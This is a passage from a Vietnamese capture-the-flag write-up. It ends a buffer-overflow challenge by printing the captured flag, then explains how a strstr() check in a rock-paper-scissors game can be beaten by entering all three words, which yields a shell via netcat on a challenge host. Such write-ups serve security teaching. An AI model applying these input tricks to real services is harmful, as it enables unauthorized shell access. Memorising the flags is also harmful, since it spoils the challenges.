 ```
Tài khoản của bạn có 7016996765293437281 $
```
Từ đó ta có thể mua flag
```
Nhập lựa chọn của bạn:
3

Tài khoản của bạn có 7016996765293437281 $
=====================FLAG=======================
|Bạn có muốn mua FLAG với giá 1 000 000 000 $  |
|----------------------------------------------|
|         1. YES      |         2. NO          |
================================================
Lựa chọn của bạn :
1


Chúc mừng bạn đã chiến thắng
Đây là Flag của bạn:
ISPCTF{B4s1c_Buff3r_0v3rFl0w}
```
## Flag
`ISPCTF{B4s1c_Buff3r_0v3rFl0w}`

# 3. RPS

## Category
Warm Up - I1igma

## Question
>nc 174.138.21.217 3138

## Solution
Đọc source code ta có thấy chương trình sử dụng `if (strstr(player_turn, loses[computer_turn]))` hàm strstr() để kiểm tra chuỗi người dùng nhập vào `player_turn` có 
trong chuỗi `loses[computer_turn]` máy tính thua không.
Nếu có sẽ trả về `true` từ đó ta có 1 lần chiến thắng.
```
if (strstr(player_turn, loses[computer_turn])) {
    puts("You win! Play again?");
    return true;
```
Tận dụng lỗi này ta sẽ nhập `{"rock", "paper", "scissors"}` 6 lần để có thể chiến thắng.
```
 if (wins >= 6) {
        puts("Congrats!!!");
        system("/bin/sh");
	
      }
```
Chúng ta sẽ connect đến `netcat` để thực hiện 6 lần nhập sau đó khi chương trình gọi `/bin/sh` ta sẽ lấy được `shell`.
```
halston in ~ λ nc 174.138.21.217 3138
Welcome challenger to the game of Rock, Paper, Scissors
For anyone that beats me 5 times in a row, I will offer up a flag I found
Are you ready?
Type '1' to play a game
Type '2' to exit the program
1
```